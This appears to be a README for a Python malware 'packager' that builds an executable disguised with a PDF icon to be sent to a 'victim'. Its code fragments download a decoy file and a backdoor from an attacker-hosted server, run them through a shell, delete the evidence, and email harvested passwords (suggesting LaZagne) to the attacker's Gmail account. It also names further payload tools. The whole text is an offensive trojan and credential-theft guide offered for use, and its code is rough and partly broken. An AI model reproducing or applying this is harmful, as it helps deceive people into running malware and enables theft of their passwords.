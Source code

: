 # -malwarepackager3.py
requirements::
pyinstaller :: pip3 install pyinstaller

packaging :: for making executable
pyinstaller malwarepackager3.py --icon pdf.icon

useage:: python3 malwarepacker3.py

victim :: Send .exe to victim

this program you can edit the code easily by removing the comments




:: you can add malware eg:::veil:fatrat:unicorn (subprocess.call)
:: for password recover or hacking passwords use lazagne(subprocess.call)


editing the code ::
downloads("http://192.168.1.1/you file an img:pdf:video:with exetension:")
results=subprocess.Popen("img:pdf:video:full name with extension",shell=True)

downloads("http://192.168.1.1/img.jpg:")
results=subprocess.Popen("img.jpg",shell=True)
#first file eg:: img::pdf:video: hosted on your apache server or direct link the file


#to execute the file:::
downloads("http://192.168.1.1/yourmalware.exe backdoor")
results=subprocess.call("yourmalware.rxr",shell=True)

os.remove("yourbackdoor or malicous file that was run by the subprocess.call command:: yourmalware.exe::")


#send_mainfuntions::

#for reciving the mail if you needed use lazagne or any reporting tool
def send_mail(email,password,message):
    server = smtplib.SMTP("smtp.gmail.com",587)
    server.starttls()
    server.login(email,password)
    server.sendmail(email,email, message)
    server.quit()

###
#for send_mail functions to call remove comment# for using this functions:::
#send_mail("rave@gmail.com","password",results)



